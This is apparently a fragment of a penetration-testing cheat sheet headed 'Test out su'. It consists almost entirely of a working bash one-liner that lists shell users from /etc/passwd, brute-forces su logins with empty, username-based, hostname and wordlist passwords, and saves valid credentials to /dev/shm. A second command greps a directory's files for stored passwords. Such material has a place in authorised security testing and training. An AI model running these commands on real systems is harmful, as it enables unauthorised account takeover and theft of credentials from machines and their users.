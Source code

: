 
#### Test out su

```bash
users=$(cat /etc/passwd 2>/dev/null | grep -i "sh$" | cut -d ":" -f 1); sucheck(){ sucheck=$(echo "$2" | timeout 1 su $user -c whoami 2>/dev/null); if [ "$sucheck" ]; then echo "  You can login as $user using password: $2" && echo "$1:$2" >> /dev/shm/valid.txt; fi }; printf "%s\n" "$users" | while read user; do sucheck "$user" ""; sucheck "$user" "$user"; sucheck "$user" "$hostname"; sucheck "$user" "$(echo $user | rev 2>/dev/null)"; if [ -f "passwords.txt" ]; then while IFS=' ' read -r guess; do sucheck "$user" "$guess"; sleep 0.01; done < "passwords.txt"; fi; if [ -f "$1" ]; then while IFS=' ' read -r guess; do sucheck "$user" "$guess"; sleep 0.01; done < "$1"; fi; done
```

find ../ResetPassword -type f -exec strings {} \; -exec grep -riH password --color  {} \;